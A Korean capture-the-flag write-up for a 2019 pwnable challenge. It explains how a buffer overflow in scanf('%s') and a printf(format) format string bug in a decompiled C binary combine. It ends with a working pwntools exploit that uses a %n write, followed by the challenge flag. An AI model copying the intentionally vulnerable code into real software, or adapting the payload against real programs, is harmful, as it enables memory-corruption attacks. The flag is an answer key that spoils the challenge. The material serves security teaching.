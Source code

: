 # 짬짜면 - ??pt

## 문제

오전 수업이 끝나고 점심시간이 되었습니다!!! (오점뭐?)

오점뭐의 결과 중국집으로 결정났습니다! (땅땅땅)

하지만 뭘 먹을지 결정하지 못한 단 한 사람이 있었습니다.

어서 이 결정못한 사람에게 메뉴를 정해주세요!

바로 요기에서 ☞  nc [10.100.114.238] \[port]  ☜





※경고 - 이 문제는 어렵읍니다.



## 문제 취지

1학년 정보보호학개론 수업에서 부터 배우는 시스템해킹 기술인 buffer overflow와 format string bug를 잘 이해하고있는지에 대한 문제이다.



## 풀이 방법

바이너리와 함께 IDA로 디컴파일 되어있는 소스코드가 들어있다. 실행하면 결정장애 재훈이가 먹을 메뉴를 골라달라고 한다. 주소 값이 하나 릭되고 주소를 입력하면 갑자기 재훈이는 정해진 음식을 먹지 않겠다며 메뉴의 번호를 알려준다. 근데 아까 고른 번호가 나오게 된다.

```
root@kali:~/scpCTF/scpCTF2019/pwnable/정재훈_짬짜면# ./vuln 
수업이 30분 남은 당신! 선택권이 없이 중국집에서 주문해야겠군요!
밥을 같이 먹을 결정장애 재훈이가 메뉴를 정하지 못하고 있네요;;
당신이 대신 재훈이가 먹을 메뉴를 선☆택★ 해주세요!
 1: 짜장
 2: 짬뽕
 > 1
오, 여기에 이상한 주소값이 있네요?? 0xffa77a30 이건 뭐죠?? 뭔진 모르겠고 주문이나 합시다.
주소를 알려주세요 : 중부대학교세종관804호
중부대학교세종관804호로 배달하겠습니다.
 아, 잠깐 재훈이는 짜장를 먹지 않겠다고 하네요;; 이런;


재훈이가 먹을 메뉴는 1번이네요
결정 못한 재훈이 때문에 고민만 하다가 수업시간이 되었습니다...
```

IDA로 디컴파일 되어있는 코드를 보면 다음과 같다.

```c
/***************************/
/* decompiled by IDA pro   */
/***************************/

int showFlag()
{
  char s; // [esp+0h] [ebp-88h]
  FILE *stream; // [esp+80h] [ebp-8h]

  stream = fopen("flag", (const char *)&unk_2008);
  fgets(&s, 128, stream);
  printf("FLAG : %s\n", &s);
  return fclose(stream);
}

_BOOL4 __cdecl choose(int a1)
{
  printf("\n\n재훈이가 먹을 메뉴는 %d번이네요\n", a1);
  return a1 == '!';
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-4Ch]
  int v5; // [esp+4h] [ebp-48h]
  char *format; // [esp+44h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  printf("수업이 30분 남은 당신! 선택권이 없이 중국집에서 주문해야겠군요!\n");
  printf("밥을 같이 먹을 결정장애 재훈이가 메뉴를 정하지 못하고 있네요;;\n");
  printf("당신이 대신 재훈이가 먹을 메뉴를 선☆택★ 해주세요!\n");
  printf(" 1: 짜장\n");
  printf(" 2: 짬뽕\n");
  printf(" > ");

  __isoc99_scanf(&unk_2168, &v4);
  if ( v4 == 1 )
  {
    format = "짜장";
  }
  else
  {
    if ( v4 != 2 )
    {
      puts("메뉴 안에서 고르세요. ㅡㅡ\n");
      exit(0);
    }
    format = "짬뽕";
  }
  printf("오, 여기에 이상한 주소값이 있네요?? %p 이건 뭐죠?? 뭔진 모르겠고 주문이나 합시다.\n", &v5);
  printf("주소를 알려주세요 : ");
  __isoc99_scanf("%s", &v5);
  printf("%s로 배달하겠습니다.\n 아, 잠깐 재훈이는 ", &v5);
  printf(format);
  puts("를 먹지 않겠다고 하네요;; 이런;\n");
  if ( choose(v4) )
  {
    puts("우리는 답을 찾았습니다...\n");
    showFlag();
  }
  else
  {
    puts("결정 못한 재훈이 때문에 고민만 하다가 수업시간이 되었습니다...\n");
  }
  return 0;
}
```

첫부분에 showFlag()라는 예쁜 함수가 존재하는데, 코드를 쭉 보면 main() 함수에서 choose함수의 리턴 값이 참이면 호출되도록 되어있다.

참이 되는 조건을 찾아보면 choose(v4) 호출에서 v4가 '!'가 되도록 하면 된다. 즉, decimal값으로 33이 되야한다.

v4는 scanf() 함수를 이용해서 입력 받는데, 1 또는 2가 아니면 프로그램이 종료된다. 이상한 주소값이 있다면서 v5의 주소를 알려준다. v5가 ebp-0x48이고 v4가 ebp-0x4c 이기 때문에 알려 준 주소를 이용해 v4의 주소를 알 수 있다.

`scanf("%s", &v5);`에서 버퍼오버플로우가 발생하는 것이 보이지만 v4의 위치에 덮어 씌울 수는 없다 하지만 format을 덮어 씌울 수 있다. 또한, `printf(format);`에 의해 format string bug가 발생하는 것을 알 수 있다. 따라서, format을 v5의 주소로 덮어 씌우고 v5는 64바이트만큼의 문자열을 저장할 수 있기 때문에 format string을 이용해 v5의 -4한 주소(v4의 주소)에 33이라는 값을 넣을 수 있으면 `showFlag()`가 실행되는 것이다.

"재훈이가 먹을 메뉴는 ##번이네요" 부분에서 format string을 이용해 값이 어떻게 들어갔는지 확인 가능하게 만들었다.



format string 삽질과정은 생략...



```python
from pwn import *

p = process('./vuln')

print p.recvuntil('> ')
p.sendline("1")
tmp = p.recvuntil(': ')
v5_addr = int(tmp[0x32:0x3c], 16)
print hex(v5_addr)

payload  = p32(v5_addr - 4)
payload += "%29x%n"			#33 - 4 = 29

payload += "A"*(64-len(payload))
payload += p32(v5_addr)

p.sendline(payload)
p.interactive()
```

![image](https://user-images.githubusercontent.com/40850499/66716720-145a6f00-ee0c-11e9-9e27-0aacab28e8c2.png)



## Flag

scpCTF{buff3r_0v3rf10w_4nd_f0rm47_57r1ng_bu9_2in1}



## 힌트

 1) [Buffer Overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
 2) [Format String Bug](https://ko.wikipedia.org/wiki/%ED%8F%AC%EB%A7%B7_%EC%8A%A4%ED%8A%B8%EB%A7%81_%EB%B2%84%EA%B7%B8) with a [Good Description](http://blog.naver.com/PostView.nhn?blogId=haks2198&logNo=220840244540&categoryNo=0&parentCategoryNo=0&viewDate=&currentPage=1&postListTopCurrentPage=1&from=postView)



※ 이 문제가 짬짜면인 이유가 있습니다.